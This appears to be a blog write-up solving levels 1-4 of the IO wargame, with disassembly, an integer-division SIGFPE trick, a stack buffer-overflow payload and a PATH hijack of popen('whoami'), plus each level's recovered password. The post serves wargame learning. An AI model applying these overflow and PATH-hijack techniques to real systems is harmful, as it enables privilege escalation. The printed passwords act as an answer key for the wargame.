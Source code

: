 ```yaml
---
layout: post
title: "IO | a wargame @ io.smashthestack.org - solutions level 1-?"
date: 2015-01-19
comments: true
categories:
---
```


A wargame consisting of challenges associated with reverse engineering and misc.

##Level01

___

```
.text:08048085                 call    puts
.text:0804808A                 call    fscanf
.text:0804808F                 cmp     eax, 271
.text:08048094                 jz      YouWin
.text:0804809A                 call    exit

```

```
level1@io:~$ /levels/level01 
Enter the 3 digit passcode to enter: 271
Congrats you found it, now read the password for level2 from /home/level2/.pass
sh-4.2$ cat /home/level2/.pass 
3ywr07ZFw5IsdKzU
```

##Level02
I didn't manage to come up with a solution completly on my own, I should read man pages more careful.
___
>man signal
"...also dividing the most negative
integer by -1 may generate SIGFPE."

The part where floating-point exception handler are set:

```
.text:0804858A mov     dword ptr [esp+4], offset catcher ; handler
.text:08048592 mov     dword ptr [esp], 8              ; sig
.text:08048599 call    _signal                         ; signal(SIGFPE, catcher)
```

The part where the division takes place that enables us to cause an exception with the information from the man-page:

```
.text:080485C9 mov     [esp+1Ch], eax                  ; 2nd arg
.text:080485CD mov     edx, ebx
.text:080485CF mov     eax, edx
.text:080485D1 sar     edx, 1Fh
.text:080485D4 idiv    dword ptr [esp+1Ch]             ; 1ndArg/2ndArg, so we must give min int/ -1

```

Everyone likes python :)

```
import sys

print " " + str(-sys.maxint - 1)+ " -1"

```

And the result:

```
level2@io:/tmp$ /levels/level02 $(python level02.py)
source code is available in level02.c

WIN!
sh-4.2$ cat /home/level3/.pass
IFd92yzOnSMv9tkX
```

##Level03

___

This one was a stack vulnerability in it's purest form.

```
.text:08048510 call    _strlen
.text:08048515 mov     [esp+8], eax                    ; size of argv[1]
.text:08048519 mov     eax, [ebp+arg_4]
.text:0804851C add     eax, 4
.text:0804851F mov     eax, [eax]
.text:08048521 mov     [esp+4], eax                    ; argv[1] adress
.text:08048525 lea     eax, [ebp+dest]                 ; destination buffer
.text:08048528 mov     [esp], eax
.text:0804852B call    _memcpy                         ; theres no limitation of the input argument size

```
Obviously we can write an arbitrary amount of data into the input buffer.
The stack layout:

```
.text:080484C8 var_5C          = dword ptr -5Ch
.text:080484C8 dest            = byte ptr -58h
.text:080484C8 var_C           = dword ptr -0Ch
.text:080484C8 arg_0           = dword ptr  8
.text:080484C8 arg_4           = dword ptr  0Ch
```

Var_C is later called, normally holding the adress to the function called bad.
We want to overwrite it with the adress to the function called good :)

```
.text:0804856D mov     eax, [ebp+var_C]
.text:08048570 call    eax
```

So how big is the offset?
58h-0C=4C which is 76 byte.
Lets verify it.

```python
>>> print "A"*76+"BBBB"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

![EAXOwned](/images/EAXLevel3.png)

Awesome!

Adress of good: 0x08048474

So our exploit will be:

```python
print "A"*76+\x74\x84\x04\x08"

```

```
level3@io:/levels$ ./level03 $(python -c "print \"A\"*76+\"\x74\x84\x04\x08\"")
This is exciting we're going to 0x8048474 Win.
sh-4.2$ cat /home/level4/.pass
nSwmULj2LpDnRGU2
```

##Level04

___
The program:

```c
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}

```

I'll didn't know how to solve it at all really, guess when I meet a similar problem in the future the PATH will be more accessible in my head :)
There's a good writeup here: [http://chousensha.github.io/blog/2014/07/07/smashthestack-io-level-4/](http://chousensha.github.io/blog/2014/07/07/smashthestack-io-level-4/)

```bash
level4@io:/tmp/fisk$ echo "cat /home/level5/.pass" >> whoami
level4@io:/tmp/fisk$ chmod 777 whoami
level4@io:/tmp/fisk$ PATH="/tmp/fisk:$PATH"
level4@io:/tmp/fisk$ echo $PATH
/tmp/fisk:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
level4@io:/tmp/fisk$ /levels/level04
Welcome LOoCy5PbKi63qXTh
```


##Level05

___


##Level06

___


##Level07

___


